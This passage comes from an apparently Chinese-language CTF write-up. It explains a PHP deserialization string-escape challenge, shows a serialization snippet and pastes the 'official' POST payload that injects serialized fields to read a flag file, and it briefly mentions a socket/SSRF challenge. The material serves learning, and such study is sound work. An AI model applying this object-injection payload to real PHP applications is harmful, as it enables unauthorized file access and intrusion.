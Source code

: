 但是在这里面action无法控制，然而我们可以控制username和password，还是那句话，永远不要相信用户的输入。

    <?php
    class Action {
        public $data=array('Troy3e','Troy3e');
        public $username='';
        public $password='';
        public $datafile='';
        public $act='';
        }
        echo serialize(new Action());
    ?>
    //O:6:"Action":5:{s:4:"data";a:2:{i:0;s:6:"Troy3e";i:1;s:6:"Troy3e";}s:8:"username";s:0:"";s:8:"password";s:0:"";s:8:"datafile";s:0:"";s:3:"act";s:0:"";}

到这其实就很明显了username处控制长度逃逸出数组，password里面是我们控制的反序列化的内容。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606160638.png)

十个。后面就不多说了，直接贴个官方payload：

    username==50=50=50=50=50&password=a";s:1:"a";}s:8:"username";s:9:"lastsward";s:8:"password";s:9:"lastsward";s:8:"datafile";s:36:"flagf528764d624db129b32c21fbca0cb8d6";s:3:"act";s:8:"register";}

四、impossible ip
后面那个ssrf打fpm已经做烂了就不讲了，看一下前面这个socket。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606162314.png)

这个知识点我倒是没见过，学习了。


总结：
闲着没事，就看四个。这几个还是比较简单的。
溜了，学习去了。




